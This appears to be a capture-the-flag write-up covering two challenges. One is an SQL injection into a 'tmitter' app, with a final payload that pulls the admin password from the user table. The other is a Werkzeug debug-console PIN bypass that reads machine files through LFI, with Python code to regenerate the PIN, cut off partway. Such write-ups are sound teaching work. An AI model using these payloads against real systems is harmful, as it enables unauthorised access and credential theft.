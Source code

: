 So trying the (1. , 2.) requests I arrived to nothing I guess they were paramtized so I went for the 3rd one.
Here I tried to guess the number of columns by simply.
testii') then testii','admin') then testii',11) till it worked. After that I realized that to post a tmitter. we need

- the one who posted it
- the id of him
- the content
- idk what is the last param it worked at 11 so kept it like that.

**final_payload**
`admin',11),(0,'admin',(select+ps+from+tmitter_user+where+id%3d'admin'),11)%23`

## Flask-Dev

Vulnerable Werkzeug server left in `Debug` mode.

we can access the `/console` to get to the interactive python shell offered by the server but to use it we should insert the `PIN`.
The `PIN` is generated from a bunch of informations we can gather.

There is a clear `LFI` vulnerability offered in the server code. But why is it for?  
Some research led me to the fact that we can calculate the PIN by getting some informations on the server machine.

here is the code to generate it with the endpoints to access to get it

```py
import hashlib
from itertools import chain

probably_public_bits = [
    'dreamhack',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

str1=b"c31eea55a29431535ff01de94bdcf5cf" #  ../../etc/machine-id
str2=b"libpod-20b1f2db2dd6780d58623f4a8ef1f0bc868cb908e7a6ef00fcee04203e55d983" # ../../proc/self/cgroup

print(str1+str2)


private_bits = [
    '187999308510721',# str(uuid.getnode()),  /sys/class/net/eth0/address
    str1+str2 # get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
```
